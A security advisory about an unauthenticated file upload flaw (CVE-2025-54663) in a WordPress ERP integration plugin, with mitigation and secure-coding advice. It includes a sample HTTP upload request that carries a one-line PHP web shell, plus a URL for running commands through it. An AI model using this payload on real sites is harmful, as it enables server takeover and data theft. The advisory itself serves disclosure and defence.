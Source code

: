## Critical Vulnerability Discovered in GlobalLink ERP Integration Plugin

A newly discovered, critical security vulnerability (identified as **CVE-2025-54663**) has been found in the **GlobalLink ERP Integration Plugin** for WordPress. This flaw poses a significant risk to organizations using the affected software, potentially leading to severe business disruption, data breaches, and complete system compromise. Addressing this vulnerability immediately is crucial to protect your digital assets and maintain operational integrity.

### Vulnerability Details

*   **CVE ID:** **CVE-2025-54663**
*   **Affected Software:** **GlobalLink ERP Integration Plugin** for WordPress
*   **Affected Versions:** All versions from **1.0.0** up to and including **1.5.2**.
*   **Technical Cause:** The vulnerability stems from an unauthenticated arbitrary file upload flaw within the plugin's `upload_processor.php` component. This means that an attacker, without needing any credentials or prior authentication, can upload malicious files—such as a web shell—directly to the vulnerable server. The lack of proper input validation and file type/size checks allows these malicious files to be executed by the web server.
*   **Example Payload (Simplified):**
    Attackers can send a crafted HTTP POST request to exploit this flaw:
    ```http
    POST /wp-content/plugins/globallink/includes/upload_processor.php HTTP/1.1
    Host: your-wordpress-site.com
    Content-Type: multipart/form-data; boundary=---------------------------9747672998524989295328221854

    ---------------------------9747672998524989295328221854
    Content-Disposition: form-data; name="file"; filename="shell.php"
    Content-Type: application/x-php

    <?php system($_GET['cmd']); ?>
    ---------------------------9747672998524989295328221854--
    ```
    Upon successful upload, the attacker can then access `https://your-wordpress-site.com/wp-content/uploads/globallink_uploads/shell.php?cmd=ls` to execute arbitrary commands on the server.

### Risk Description

Successful exploitation of **CVE-2025-54663** grants an attacker **Remote Code Execution (RCE)** capabilities on the affected web server. This is one of the most severe types of vulnerabilities, allowing attackers to:

*   **Take complete control** of your WordPress site and the underlying server.
*   **Steal sensitive data** (e.g., customer databases, financial records, proprietary business information).
*   **Install malware**, ransomware, or backdoors.
*   **Deface your website** or redirect visitors to malicious sites.
*   **Disrupt business operations** by taking your site offline or corrupting data.
*   **Pivot to other systems** within your network.

### Who is at Risk

Any organization running a WordPress website that has the **GlobalLink ERP Integration Plugin** installed and is using a vulnerable version (from **1.0.0** up to **1.5.2**) is at immediate risk.

### Recommendations

Immediate action is strongly advised for all affected parties.

**For Website Owners and Administrators:**

1.  **Update Immediately:** The vendor has released a patched version. Update your **GlobalLink ERP Integration Plugin** to **version 1.5.3** or higher *without delay*. Always back up your site before performing updates.
2.  **Monitor Logs:** Review your web server and WordPress access logs for any suspicious activity, especially POST requests to `/wp-content/plugins/globallink/includes/upload_processor.php` or unusual file creations in the `/wp-content/uploads/globallink_uploads/` directory.
3.  **Temporary Mitigation (if immediate update is not possible):**
    *   Temporarily disable the **GlobalLink ERP Integration Plugin** if its functionality is not critical for immediate operations.
    *   Implement Web Application Firewall (WAF) rules to block unauthenticated access to `/wp-content/plugins/globallink/includes/upload_processor.php` and to filter out suspicious file upload attempts.

**For Developers (of the GlobalLink ERP Integration Plugin and other software):**

1.  **Strict Input Validation:** Implement rigorous validation for all user-supplied input, especially for file uploads.
2.  **Authentication for Uploads:** Ensure that file upload functionality is strictly limited to authenticated and authorized users.
3.  **File Type & Size Restrictions:** Validate file types (whitelist allowed extensions) and restrict file sizes to prevent malicious uploads.
4.  **Secure Storage:** Store uploaded files outside of the web-accessible root directory if possible, or ensure proper permissions are set to prevent direct execution.
5.  **Code Review:** Conduct comprehensive security code reviews to identify and remediate similar vulnerabilities.

### Reference Link

For further technical details and official advisories regarding **CVE-2025-54663**, please refer to:
[https://nvd.nist.gov/vuln/detail/CVE-2025-54663](https://nvd.nist.gov/vuln/detail/CVE-2025-54663)